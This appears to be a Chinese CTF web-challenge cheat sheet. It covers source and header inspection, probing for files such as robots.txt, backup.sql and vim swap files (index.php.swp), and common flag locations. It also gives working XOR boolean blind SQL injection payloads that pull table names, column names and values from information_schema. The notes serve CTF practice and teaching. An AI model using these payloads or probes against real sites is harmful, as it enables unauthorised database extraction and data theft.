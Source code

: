 拿到题，访问web。
查看源码 仔细查看或者搜索关键词，如flag,include等，提示方向。

F12查看网络请求情况。
最好抓包，仔细查看请求头，响应头信息。

查看传参，回显情况。sql注入，文件包含，模板注入。

目录测试，如flag.php，robots.txt
探针/tz.php，/backup.sql

临时文件是在vim编辑文本时就会创建的文件，如果程序正常退出，临时文件自动删除，如果意外退出就会保留，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。所以通过在url后面加上/index.php.swp即可看到flag。
以index.php来说，第一次退出后，缓存文件名为index.php.swp，第二次退出后，缓存文件名为index.php.swo,第三次退出后文件名为index.php.swn。

^
一般flag在/flag或/flag.txt中，也可能在env命令环境变量中，还可能在phpinfo()中。

^
## **sql注入考点**
部分sql盲注入如逻辑布尔盲注，需要使用代码一个一个字符跑出来。

异或盲注?id=1^1^1
在这个前提下，分析回显内容的字符差异，进行布尔盲注，代码中使用二分法加快布尔盲注。
```
获取表名
1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,1))>0)^1
[*] F1naI1y,Flaaaaag~
猜测列名
1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='表名')),1,1))>0)^1
猜测值
1^(ord(substr((select(group_concat(列名))from(表名)),1,1))>0)^1
```

案例：
<https://www.cnblogs.com/upfine/p/16367693.html#:~:text=%E5%88%86%E4%BA%AB%E4%B8%8B%E8%87%AA%E5%B7%B1%E5%9C%A8%E5%AE%8C%E6%88%90%20[>